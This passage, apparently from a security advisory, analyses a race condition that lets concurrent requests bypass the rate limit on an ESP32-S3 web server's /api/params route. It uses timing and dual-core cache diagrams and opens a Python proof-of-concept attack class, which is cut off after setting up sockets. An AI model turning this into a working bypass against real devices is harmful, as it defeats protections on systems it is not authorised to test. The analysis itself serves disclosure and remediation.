 **Check-Then-Act pattern without atomicity:**
- Thread A reads w.last_ms
- Thread A decides "allowed"
- Thread B reads w.last_ms (old value)
- Thread B decides "allowed"
- Thread A writes w.last_ms
- Thread B writes w.last_ms
- **Both bypass rate limit due to overlapping reads**

### Critical Timing Window

For `/api/params` with 300ms window:
```
T0:     First request arrives
T0+0μs:  Thread A reads last_ms = 0
T0+10μs: Thread B reads last_ms = 0  ← RACE WINDOW: both see 0
T0+20μs: Thread A writes last_ms = T0
T0+30μs: Thread B writes last_ms = T0 + 10μs (overwrites A's value)

RESULT: Both allowed in rapid succession
```

The race window is typically **microseconds to milliseconds** depending on:
- System load
- FreeRTOS task scheduler quantum
- Cache coherency on multi-core (ESP32-S3 is dual-core!)

### CPU Affinity Analysis

ESP32-S3 has 2 cores:
- **Core 0:** Usually runs webserver task
- **Core 1:** May run other tasks

If two requests are processed by different cores:
```
Core 0 (Thread A): Executes route_is_rate_limited() for Request 1
  ├─ Reads w.last_ms from shared memory (via cache line)
  └─ Stalls on cache coherency

Core 1 (Thread B): Simultaneously executes route_is_rate_limited() for Request 2
  ├─ Reads w.last_ms from shared memory
  ├─ Writes w.last_ms (invalidates Core 0's cache)
  └─ Cache coherency protocol delays Core 0's write

RESULT: Extended race window, higher probability of bypass
```

### Proof-of-Concept: Detailed Attack Code

```python
import socket
import threading
import time
from concurrent.futures import ThreadPoolExecutor, as_completed

class RateLimitBypassAttack:
    def __init__(self, target_ip, target_port=80):
        self.target_ip = target_ip
        self.target_port = target_port
        self.allowed_count = 0
        self.limited_count = 0
        self.lock = threading.Lock()

    def send_request(self, request_id):
        """Send single POST request to /api/params"""
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
